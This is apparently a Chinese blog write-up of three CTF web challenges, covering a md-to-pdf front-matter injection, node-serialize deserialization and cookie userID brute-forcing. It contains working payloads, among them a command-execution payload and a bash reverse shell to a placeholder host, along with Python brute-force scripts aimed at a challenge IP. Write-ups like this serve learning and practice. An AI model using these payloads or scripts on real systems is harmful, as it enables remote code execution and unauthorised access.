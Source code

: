 ```yaml
---
layout: post
title: js测验胡徜
categories: [blog ]
tags: [JavaScript,]
description: "测验"
image:
  feature: windows.jpg
  credit: Azeril
  creditlink: azeril.com
 


---
```


`测试`

![](/img/swirl/11.jpg)

## web1

题目是直接给出附件的，大概的功能就是一个md转pdf

网上搜了一下确实有漏洞

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![image-20230928091608629](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928091608629.png)

![image-20230928092224117](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928092224117.png)

可是一直报错。。不理解

```java
{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"whoami\"))\n---RCE"}
```

## web2

一个js反序列化的题目

```java
var express = require('express');//这个就一个js文件
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var bodyParser = require('body-parser');
var app = express();
var path = require('path');
app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.set('view engine', 'ejs');

app.get('/', (req,res) => {
	res.render('home.ejs');//渲染home.ejs
});

app.post('/', (req,res) => {
	res.render('loggedin.ejs')
});

app.get('/guest', function(req, res) {
   res.render('guest.ejs');
});

app.post('/guest', function(req, res) {
   if (req.cookies.guest) {//提取guest中的cookie
   	var str = new Buffer(req.cookies.guest, 'base64').toString();//base64加密
   	var obj = serialize.unserialize(str);//这里反序列化没太看懂
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username //输入username
	 var country = req.body.country  //输入country
 	 var city = req.body.city   // 输入city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
app.listen(process.env.PORT || 7777);
console.log("Listening on port 7777...");
```

很明显看出来就是一个serialize的问题

https://zhuanlan.zhihu.com/p/25581847

https://cloud.tencent.com/developer/article/1374840

payload

```
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('bash -c \"bash -i >&
/dev/tcp/4vps/4444 0>&1\"',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}  
```

## web3

```javascript
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")// 猜测漏洞是ejs模板的问题，然后flag再 env中
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [//这里看着像定义用户信息之类的
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "****",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")//这里获得的就是当前的对象
    //需要我们传一个userData名字的cookie
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {//这是判断cookies中userData字段 继续userId
        const {userID, username} = req.cookies.userData//传送一个json

        if(req.cookies.userData.userID === admin.userID) //这里因为本来的userid就是不可见的
            res.render("home.ejs", {username: username, flag: process.env.FLAG})//这里如果满足才会出现flag
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```

流程非常简单

其实就是判断输入的cookie中的	userid是否和 管理员中的userid值相等，如果相等就会返回flag

看了看有没有原型链污染的漏洞，最后发现没有，所以尝试爆破userid



`一开始自己写的脚本` (不忍直视)

```python
import requests
a="0123456789"
for i in a :
    for j in a:
        for n in a:
            for m in a:

                 string={"username":"JYcxk","userID":i+j+n+m}
                 url="http://43.129.87.71:10003/"
                 res=requests.get(url=url,json=string)
                 if "{" in res.text:
                  print(res.text)
```

参考了以下✌的发现，需要先登陆看下cookie（源码给出了一个账号用来登陆）

```python
import requests
url="http://43.129.87.71:10003/"
for i  in range(100,1000):
    cookie={"userData":f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22kupatergent%22%7D"}
    res=requests.get(url,cookies=cookie)
    if 'flag{' in res.text:
        print(res.text)
        break
```

![image-20230928161455123](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928161455123.png)

```
j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22kupatergent%22%7D
```

![image-20230928161903282](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928161903282.png)

![image-20231003135457779](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231003135457779.png)